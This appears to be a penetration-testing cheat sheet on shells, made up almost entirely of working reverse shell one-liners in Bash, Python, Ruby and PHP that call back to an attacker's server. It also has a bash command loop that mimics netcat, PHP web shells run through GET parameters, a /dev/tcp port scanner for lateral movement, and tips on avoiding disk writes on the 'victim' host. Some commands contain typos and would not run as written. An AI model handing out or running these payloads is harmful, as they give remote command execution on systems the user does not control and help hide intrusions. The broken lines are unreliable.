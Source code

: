 # Shells

>  A shell is software/protocol that provides an interface for an CLI to the underlying OS


### BASH

######  REMEMBER IF YOU NEVER WANT TO TOUCH DISK ON THE REMOTE HOST ALWAYS USE /dev/shm (SHARED MEMORY) , AS THIS IS TREATED AS VIRTUAL MEMORY AND MOUNTED AS tmpfs NOTHING IS STORED OR WRITTEN TO DISK. THE BONUS IS THAT YOU WILL SEE A PERFORMANCE INCREASE TOO.
<hr>
Bash as it stands, is a (the most popular) shell on its own, but can also provide some really neat tricks to allow for all kinds of shell related goodness, such as a reverse shell.

#### Bash reverse shell

* Spawn a reverse shell back to your server using /dev/tcp or /dev/udp
    > bash -i >& /dev/tcp/\<yourserver>/8080 0>&1 
    
		Example:  bash -i >& /dev/tcp/10.10.10.1/8080 0>&1
    <br>
    > or bassh -c bash -i >& /dev/tcp/\<yourserver>/8080 0>&1 
    
		Example: bash -i >& /dev/tcp/yourserver.com/443 0>&1
    <br>

#### Bash /dev/tcp or /dev/udp port scanner

 * Using /dev/tcp or /dev/udp to do a port scan, useful for checking connected hosts for laterial movement
    * Example looking for open web connection on a remote host when no port scammer is available:
        <br> 

			 for port in {21.\.443}; do echo -e "GET / HTTP/1.0\n\n" > bash -i >& /dev/tcp/\<server>/\$port 0>&1 && echo -e "\n[Port $port is UP]\n"; done

<br>
 
 * Of course you could also always put this in a shell script, as originally found on oreilly.com/pub/h/5299 and small mod by Luke Bonanomi [bash port scanner](https://github.com/rupert0/shell/blob/master/bash/portscanner)
<br>

    	#!/usr/bin/env bash
    	
	    for port in \$(yes scan | head -$3)
		    do
		    (( start++ ))
		    if [[ -n $(echo '' > /dev/$2/$1/$start && echo "up") ]];
			    then
				echo "Port $start" >> scan;
		    fi
	    done;
	    clear;
	    cat scan;
	    rm scan;

			> ./portscan.sh 127.0.0.1 tcp 122 2> /dev/null
<br>

 * Another useful reverse shell we could do with bash and /dev/tcp or /dev/udp is create a connection that basically mimics netcat but done purley in bash, start off with a netcat listener on your server:
	> nc -lvvvnp 8001
	
*	Then on the remote server we use some bash-fu
	> exec 5<>/dev/tcp/\<yourserver>/8001 && while read line 0<&5; do $line 2>&5 >\&5; done
	
* This will allow everything you type on your server to be executed on the remote server and the output is conveniently piped back to you 
<hr>

### Python
Of course the reverse shell options are always going to be dependent on the installed scripting languages, but almost all systems have python installed. That is great news as it allows us to do a few handy tricks from a reverse shell to setting the stty to act and feel like a full shell with tab complete and the works.

#### Python reverse shell

 - Spawn a reverse shell back to your server using python built in libraries.
 

	> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("\<yourserver>",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	
- Once you have the shell (with sh or any dumb shell) you can then escalate if you so wish to bash or the full shell of your choice with :

	    $ python -c "import pty;pty.spawn('/bin/bash')"
	    
- Then background the shell and set stty and then foreground again for a complete fully functional shell, to background the shell use Ctrl Z and type :
 
		$ stty raw -echo
		
- Then foreground again with fg. I have on occasion had to type reset as well.
- Advantages to this is of course the ability to run things like ssh and vim have tab-complete, job control and history to mention a few.

#### When all else fails
- And you can't get a shell, you could simply create a web interface to the current directory, using :

	    python -m SimpleHTTPServer 8001 
- or for python3 use :  

	    python3 -m http.server 8001

- Then point your browser at the victim server on port 8001, or use a port that would always be allowed through the firewall like port 80 or 443 or 21, 25 ,110 etc. This assumes that the victims machine is either external facing  or you are sitting internally.

<hr>

### Ruby
If ruby is installed instead of python or you prefer ruby, then the reverse shell is just as easy and you can follow the steps above to escalate to full shell :

> ruby -rsocket -e"f=TCPSocket.open('\<yourserver>',8001).to_i;exec sprintf('/bin/sh -i <&%d >&%d 2>&%d',f,f,f)"

- If for some reason you can't get the /bin/sh or any other shell, you could use IO to execute commands :

> ruby -rsocket -e "exit if fork;c=TCPSocket.new('\<yourserver>',8001);while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"

- As with python if all else fails and you can't get a shell serve the current directory over a web interface :

	    ruby -run -e httpd . -p 8001

<hr>

### PHP
The best thing about php is that it is almost always installed (even if just for the might need it later sysadmin), certainly if there is any sort of database used on the system. Just remember for a reverse shell served as a .php file across the web service might require you enabling the php module for apache etc :

> php -r "$sock=fsockopen('\<yourserver>,8001);exec('/bin/sh -i <&3 >&3 2>&3');"

- If you are having a problem with the above reverse shell or getting an error related to file descriptors replace 3 with another file descriptor like 4 or 5 etc.

	    Example : php -r "$sock=fsockopen('10.10.10.145',8001);exec('/bin/sh -i <&5 >&5 2>&5');"

- Again as with the other options so far if all else fails and you can't get a reverse shell from the CLI you can always try over the web service (assuming the hp module is enabled). A quick cheeky one liner for the php file would be to use our bash reverse shell (remember to start a listener on your server first) :

	> <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/\10.10.10.145/8001 0>&1'"); ?>
 
 - or here are a few complete reverse shells using the browser as the CLI  (file saved as 1.php):
 
 

	    <pre> <?= $_GET[1] ?>
	    
		    called via browser: http://someserver.com/somedir/1.php?1=ls%20-lah

	<br>

		<pre> <? echo passthru($_GET['cmd']); ?>
		
			called via browser: http://someserver.com/somedir/1.php?cmd=whoami
	
	<br>

	    <pre> <?php echo system($_GET["c"]); ?>
	    
		    called via browser : http://someserver/somedir/1.php?c=id

	 <br>

	    <pre> <?php echo shell_exec($_GET["sc"]." 2>&1"); ?>
	    
		    called via browser : http://someserver/1.php?sc=ls%20-lah%20/tmp

- Doesn't get much smaller and easier than that.

<hr>

### Perl
